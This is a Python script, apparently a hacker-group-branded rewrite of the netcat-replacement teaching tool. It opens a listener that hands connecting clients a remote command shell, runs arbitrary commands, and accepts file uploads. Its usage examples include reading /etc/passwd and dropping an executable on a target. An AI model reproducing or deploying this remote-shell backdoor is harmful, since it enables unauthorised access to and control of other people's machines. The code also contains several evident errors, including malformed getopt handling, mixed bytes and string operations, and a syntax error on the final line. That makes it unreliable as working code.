 #!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
Created on Tue Nov 15 17:22:56 2022
@author: Kier Gyb
"""

import sys
import socket
import getopt
import threading
import subprocess

# define some global variables
listen = False
command = False
upload = False
execute = ""
target = ""
upload_destination = ""
port = 0

print(
    """
 ____     _____
[    ]   /    /
[    ]  /    /
[      /    KIER GYB
ANON-GISK TEAM"""
)


def usage():            
    print("")
    print("Usage: anon-gisk.py ")
    print(
        """-l --listen                - listen on [host]:[port] for
                                          incoming connections"""
    )
    print(
        """-e --execute=fle_to_run    - execute the given file upon
                                          receiving a connection"""
    )
    print("""-c --command               - initialize a command shell""")
    print(
        """-u --upload=destination    - upon receiving connection upload a
                                          file and write to [destination]"""
    )
    print("")
    print("")
    print("Examples: ")
    print("anon-gisk.py -t 192.168.0.1 -p 5555 -l -c")
    print("anon-gisk.py -t 192.168.0.1 -p 5555 -l -u=C:\\target.exe")
    print('anon-gisk.py -t 192.168.0.1 -p 5555 -l -e="cat /etc/passwd"')
    print("echo 'ABCDEFGHI' | ./anon-gisk.py -t 192.168.11.12 -p 135")

    sys.exit(0)


def main():
    global listen
    global port
    global execute
    global command
    global upload_destination
    global target

    if not len(sys.argv[1:]):
        usage()

    # read the command line options
    try:
        opts, args = getopt.getopt(sys.argv[1:], "hle:t:p:cu:"), [
            "help",
            "listen",
            "execute",
            "target",
            "port",
            "command",
            "upload",
        ]
    except getopt.GetoptError as err:
        print(str(err))
        usage()

    opts = opts[0]
    for o, a in opts:
        if o in ("-h", "--help"):
            usage()
        elif o in ("-l", "--listen"):
            listen = True
        elif o in ("-e", "--execute"):
            execute = a
        elif o in ("-c", "--command"):
            command = True
        elif o in ("-u", "--upload"):
            upload_destination = a
        elif o in ("-t", "--target"):
            target = a
        elif o in ("-p", "--port"):
            port = int(a)
        else:
            assert False, "Unhandled Option"

    # are we going to listen or just send data from stdin?
    if not listen and len(target) and port > 0:

        # read in the buffer from the commandline
        # this will block, so send CTRL-D if not sending input
        # to stdin
        buffer = sys.stdin.read()

        # send data off
        client_sender(buffer)

    # we are going to listen and potentially
    # upload things, execute commands, and drop a shell back
    # depending on our command line options above
    if listen:
        server_loop()


def server_loop():
    global target

    # if no target is defined, we listen on all interfaces
    if not len(target):
        target = "0.0.0.0"

    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.bind((target, port))

    server.listen(5)

    while True:
        client_socket, addr = server.accept()

        # spin off a thread to handle out new client
        client_thread = threading.Thread(target=client_handler, args=(client_socket,))
        client_thread.start()


def client_sender(buffer):

    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    try:
        # connect to our target host
        client.connect((target, port))

        if len(buffer):
            client.send(buffer)

        while True:
            # now wait for data back
            recv_len = 1
            response = ""

            while recv_len:

                data = client.recv(4096)
                recv_len = len(data)
                response += data.decode(errors="ignore")

                if recv_len < 4096:
                    break

            print(response)

            # wait for more input
            buffer = input("")
            buffer += "\n"

            # send it off
            client.send(buffer.encode())
    except:
        print("[*] Exception! Exiting")

        # tear down the connection
        client.close()


def client_handler(client_socket):
    global upload
    global execute
    global command

    # check for upload
    if len(upload_destination):

        # read in all of the bytes and write to out destination
        file_buffer = ""

        # keep reading data until none is available
        while True:
            data = client_socket.recv(1024)

            if not data:
                break
            else:
                file_buffer += data

            # now we take these bytes and try to write them out
            try:
                file_descriptor = open(upload_destination, "wb")
                file_descriptor.write(file_buffer)
                file_descriptor.close()

                # acknowledge that we wrote the file out
                client_socket.send(
                    b"Succesfully saved file to {}\r\n".format(upload_destination)
                )
            except:
                client_socket.send(
                    b"Failed to save file to {}\r\n".format(upload_destination)
                )

    # check for command execution
    if len(execute):

        # run the command
        output = run_command(execute)

        client_socket.send(output)

    # now we go into another loop if a command shell was requested
    if command:

        while True:
            # show a simple prompt
            client_socket.send(b"<Anon-Gisk:#> ")

            # now we receive until we see a linefeed (enter key)
            cmd_buffer = b""
            while b"\n" not in cmd_buffer:
                cmd_buffer += client_socket.recv(1024)

            # send back the command output
            response = run_command(cmd_buffer)

            # send back the response
            client_socket.send(response)


def run_command(command):

    # trim the newline
    command = command.rstrip() 

    # run the command and get  the output back
    try:
        output = subprocess.check_output(command, stderr=subprocess.STDOUT, shell=True)
    except:
        output = "Failed to execute command.\r\n"

    # send the output back to th client
    return output


main())


